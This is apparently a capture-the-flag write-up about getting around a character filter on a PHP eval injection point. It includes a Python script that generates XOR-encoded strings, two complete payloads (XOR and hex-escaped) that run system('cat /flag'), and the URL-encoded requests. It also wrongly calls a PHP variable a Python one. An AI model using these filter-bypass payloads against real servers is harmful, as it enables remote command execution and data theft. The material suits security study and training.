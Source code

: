 The vulnerability in this piece of code lies in using `eval` command from the parameter it gets as input. 

However, there is a filter for any bash command you could think of, which makes it harder to bypass it. But definitely not impossible!
Tried a bunch of things, and I got 2 possible solutions:

1. **XOR representation** for the string i want to input 

Cool that we can create strings from XOR functions, so no letters needed!
I used a script to automate xor processing (adapted from[^1])

``` python
commands = ['cat /flag', 'system']
charset = "!#$%()*+,-./:;<=>?@[]^_{|}~"

for command in commands:
	xored = ""

	for i in command:
    	found = False
    	for j in charset:
        	for k in charset:
            	if ord(j)^ord(k) == ord(i):
                	xored += ".('%s'^'%s')" % (j,k)
                	found = True
                	break
        	if found:
            	break

    	if not found:
        	xored += ".'%s'" % i

	print("%s = %s" % (command, xored[1:]))
```
So if we want to execute **`(system)(cat /flag);`**, we can use this payload:
```/?culligan=(  ('('^'[').('$'^']').('('^'[').(')'^']').('%'^'@').('-'^'@')   )	(  ('#'^'@').('!'^'@').(')'^']').('['^'{').'/'.(';'^']').(','^'@').('!'^'@').(':'^']')  );```

Of course, encoded as URL, so the final form is:

__Final URL__

_GET /?culligan=%28%20%20%28%27%28%27%5e%27%5b%27%29%2e%28%27%24%27%5e%27%5d%27%29%2e%28%27%28%27%5e%27%5b%27%29%2e%28%27%29%27%5e%27%5d%27%29%2e%28%27%25%27%5e%27%40%27%29%2e%28%27%2d%27%5e%27%40%27%29%20%20%20%29%20%20%20%20%28%20%20%28%27%23%27%5e%27%40%27%29%2e%28%27%21%27%5e%27%40%27%29%2e%28%27%29%27%5e%27%5d%27%29%2e%28%27%5b%27%5e%27%7b%27%29%2e%27%2f%27%2e%28%27%3b%27%5e%27%5d%27%29%2e%28%27%2c%27%5e%27%40%27%29%2e%28%27%21%27%5e%27%40%27%29%2e%28%27%3a%27%5e%27%5d%27%29%20%20%29%3b%0a_

2. **Hex representation** for `(system)(cat /flag);` string

```$a="\x73\x79\x73\x74\x65\x6D";die($a("\x63\x61\x74\x20\x2F\x66\x6C\x61\x67"));```

* $a is a variable in python, used to store the string `system` (in hex). 

* `die()` is equivalent to the `exit()` function.

* What I am doing is simply calling $a with `flag` parameter (also in hex)

__Final URL__

_GET /?culligan=%24%61%3d%22%5c%78%37%33%5c%78%37%39%5c%78%37%33%5c%78%37%34%5c%78%36%35%5c%78%36%44%22%3b%64%69%65%28%24%61%28%22%5c%78%36%33%5c%78%36%31%5c%78%37%34%5c%78%32%30%5c%78%32%46%5c%78%36%36%5c%78%36%43%5c%78%36%31%5c%78%36%37%22%29%29%3b%0a_

![Culligan-burp-getflag](assets/images/image11.png)
```

[^1]: https://joshuanatan.medium.com/root-me-web-server-php-eval-f77584cae128
[^2]: https://www.dcode.fr/ 
[^3]: https://holloway.nz/steg/
[^4]: Automated generated TOC: https://github.com/Relex12/Markdown-Table-of-Contents.git